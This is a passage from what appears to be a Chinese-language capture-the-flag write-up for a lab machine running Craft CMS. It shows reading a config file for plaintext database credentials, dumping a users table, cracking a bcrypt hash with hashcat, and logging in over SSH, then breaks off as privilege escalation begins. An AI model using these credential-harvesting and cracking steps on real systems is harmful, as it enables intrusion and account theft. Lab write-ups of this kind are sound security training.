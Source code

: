 ```bash
cat /var/www/html/craft/config/db.php
```

```php
return [
    'driver' => 'mysql',
    'server' => 'localhost',
    'user' => 'craftuser',
    'password' => 'CraftCMS_2023!',
    'database' => 'craftdb',
];
```

### 數據庫枚舉

```bash
mysql -u craftuser -p'CraftCMS_2023!' craftdb
```

```sql
use craftdb;
show tables;
select * from users;
```

找到用戶 hash：

```
matthew:$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe
```

### 破解密碼

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

破解成功：`matthew:starcraft122490`

### SSH 登入

```bash
ssh matthew@10.10.11.245
# password: starcraft122490
```

取得 user flag：

```bash
cat ~/user.txt
```

## 權限提升

### 發現 ZoneMinder

檢查運行的服務：
